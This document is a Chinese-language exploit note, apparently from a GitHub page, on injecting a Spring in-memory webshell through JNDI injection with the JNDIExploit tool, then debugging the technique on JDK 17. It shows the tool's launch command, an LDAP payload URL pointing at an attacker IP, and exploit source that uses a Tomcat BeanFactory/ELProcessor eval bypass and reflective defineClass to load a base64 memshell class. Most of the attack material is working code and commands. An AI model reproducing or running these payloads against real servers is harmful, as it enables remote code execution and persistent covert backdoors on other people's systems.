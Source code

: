 在存在jdni注入的情况下，注入一个Spring的内存马。
开启jdni注入工具：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar --ip 192.168.17.129 --httpPort 8081
```

请求中插入payload：
```
ldap://192.168.17.129:1389/TomcatBypass/SpringMemshell
```

jndi注入工具收到请求：
![image](https://user-images.githubusercontent.com/30398606/174015267-93d53012-99f1-4bbf-9785-e1779d549928.png)


相关注入代码：
com.feihong.ldap.gadgets.utils.Gadgets #createTemplatesImpl (PayloadType type, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory, String... param)
  
```java
  byte[] classBytes = null;
        switch (type){
            ...
            case springmemshell:
                classBytes = Cache.get("SpringMemshellTemplate");
                break;
            ...
         }
```

com.feihong.ldap.utils.Cache中注入：
```java
      static{
        try {
            //过期时间100年，永不过期的简单方法
            map.put("TomcatEchoTemplate", Util.getClassBytes(TomcatEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringEchoTemplate", Util.getClassBytes(SpringEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicEchoTemplate", Util.getClassBytes(WeblogicEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate1", Util.getClassBytes(TomcatMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate2", Util.getClassBytes(TomcatMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JettyMemshellTemplate", Util.getClassBytes(JettyMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate1", Util.getClassBytes(WeblogicMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate2", Util.getClassBytes(WeblogicMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JBossMemshellTemplate", Util.getClassBytes(JBossMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WebsphereMemshellTemplate", Util.getClassBytes(WebsphereMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringMemshellTemplate", Util.getClassBytes(SpringMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static byte[] get(String key){
        return map.get(key);
    }

    public static void set(String key, byte[] bytes){
        map.put(key, bytes);
    }
```

com.feihong.ldap.controllers.TomcatBypassController
```java
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String base) throws Exception {
        System.out.println("[+] Sending LDAP ResourceRef result for " + base + " with javax.el.ELProcessor payload");

        Entry e = new Entry(base);
        e.addAttribute("javaClassName", "java.lang.String"); //could be any
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));

        TomcatBypassHelper helper = new TomcatBypassHelper();
        String code = null;
        switch (type){
  
            case springmemshell:
                code = helper.injectSpringMemshell();
                break;
        ...
        }
```
  
com.feihong.ldap.controllers.TomcatBypassController$TomcatBypassHelper
```java

        public String injectSpringMemshell(){
            return injectMemshell(SpringMemshellTemplate.class);
        }
  
        public String injectMemshell(Class clazz){
            //使用类加载的方式最为方便，可维护性也大大增强

            String classCode = null;
            try{
                classCode = Util.getClassCode(clazz);
            }catch(Exception e){
                e.printStackTrace();
            }

            String code = "var bytes = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('" + classCode + "');\n" +
                    "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                    "try{\n" +
                    "   var clazz = classLoader.loadClass('" + clazz.getName() + "');\n" +
                    "   clazz.newInstance();\n" +
                    "}catch(err){\n" +
                    "   var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                    "   method.setAccessible(true);\n" +
                    "   var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                    "   clazz.newInstance();\n" +
                    "};";

            return code;
        }
```

com.feihong.ldap.utils.Util
```java
    public static String getClassCode(Class clazz) throws Exception {
        byte[] bytes = getClassBytes(clazz);
        String result = Util.base64Encode(bytes);

        return result;
    }
  
    public static byte[] getClassBytes(Class clazz) throws Exception {
        String className = clazz.getName();
        String resoucePath = className.replaceAll("\\.", "/") + ".class";
        InputStream in = Util.class.getProtectionDomain().getClassLoader().getResourceAsStream(resoucePath);
        byte[] bytes = new byte[1024];
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        int len = 0;
        while((len = in.read(bytes)) != -1){
            baous.write(bytes, 0 , len);
        }

        in.close();
        baous.close();

        return baous.toByteArray();
    }
```

Ref:
- https://github.com/shadowsock5/JNDIExploit/blob/a3addc8d5fb3281d9ea95f9fbcc85e14ebb8dd25/src/main/java/com/feihong/ldap/controllers/TomcatBypassController.java

  
```java
javax.script.ScriptEngineManager #getEngineByName("JavaScript")
```
在JDK-17.0.2，下执行失败，找不到这个Engine。

而在JDK-11下：
![image](https://user-images.githubusercontent.com/30398606/174246137-e5604d2f-5f75-4ea1-994e-29da96ca9113.png)
没有问题。
![image](https://user-images.githubusercontent.com/30398606/174246969-f0b2b684-22eb-4eef-831c-3707f8b37404.png)

  开始还以为是jdk-17对jndi的注入有什么限制，后来发现原来不是，依然可以绕过，只是获取不到`getEngineByName("JavaScript")`
原来是
> Java 15 removed [Nashorn JavaScript Engine](https://golb.hplar.ch/2020/04/java-javascript-engine.html)

推荐使用`GraalVM JavaScript engine`？但是需要添加依赖：
```xml
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js</artifactId>
  <version>22.0.0</version>
</dependency>  
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js-scriptengine</artifactId>
  <version>22.0.0</version>
</dependency>
```
然后使用方法：
```java
// Graal
ScriptEngine graalEngine = new ScriptEngineManager().getEngineByName("graal.js");
graalEngine.eval("print('Hello World!');");
```
查看哪些Engine可以用：
```java
new ScriptEngineManager().getEngineFactories();
```
JDK-17下，
  ![image](https://user-images.githubusercontent.com/30398606/174250896-348355dc-04cd-437c-909b-54748b182a76.png)

  
尝试使用这个：
  https://github.com/lz2y/yaml-payload-for-ruoyi/blob/main/src/main/java/artsploit/AwesomeScriptEngineFactory.java
  但是：
  ![image](https://user-images.githubusercontent.com/30398606/174265414-fdadcbae-6b3b-4e39-9f4c-bb6c62e95b17.png)
```
java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @2d127a61
```

> 403 强封装JDK的内部API
简而言之就是java内部的大部分类，除了关键的内部API，如sun.misc.Unsafe类，都进行强封装，默认情况下不允许开发人员利用反射等手段去访问内部非public的类、成员变量等，使java更加安全。
但是可以通过设置参数–add-export或–add-opens来指定哪些类可以被访问。
————————————————
版权声明：本文为CSDN博主「aitutou」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/aitutou/article/details/124248255
  尝试反射第三方的库的方法解决
  new ClassLoader().loadClass(bcelCode)
Ref:
  - https://stackoverflow.com/questions/71481562/use-javascript-scripting-engine-in-java-17
  - https://github.com/keycloak/keycloak/issues/9945
